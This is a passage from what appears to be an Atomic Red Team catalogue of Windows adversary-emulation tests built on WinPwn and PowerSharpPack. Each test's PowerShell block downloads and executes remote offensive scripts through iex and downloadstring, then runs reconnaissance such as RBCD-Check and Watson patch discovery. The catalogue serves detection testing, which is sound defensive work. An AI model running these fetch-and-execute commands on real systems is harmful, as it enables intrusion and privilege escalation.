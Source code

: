 **Supported Platforms:** Windows

**auto_generated_guid:** 3278b2f6-f733-4875-9ef4-bfed34244f0a

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
Morerecon -noninteractive -consoleoutput
```

<br/>
<br/>

## Atomic Test #20 - WinPwn - RBCD-Check

Search for Resource-Based Constrained Delegation attack paths using RBCD-Check function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** dec6a0d8-bcaf-4c22-9d48-2aee59fb692b

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
RBCD-Check -consoleoutput -noninteractive
```

<br/>
<br/>

## Atomic Test #21 - WinPwn - PowerSharpPack - Watson searching for missing windows patches

PowerSharpPack - Watson searching for missing windows patches technique via function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** 07b18a66-6304-47d2-bad0-ef421eb2e107

#### Attack Commands: Run with `powershell`!

```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpWatson.ps1')
Invoke-watson
```

<br/>
<br/>

## Atomic Test #22 - WinPwn - PowerSharpPack - Sharpup checking common Privesc vectors
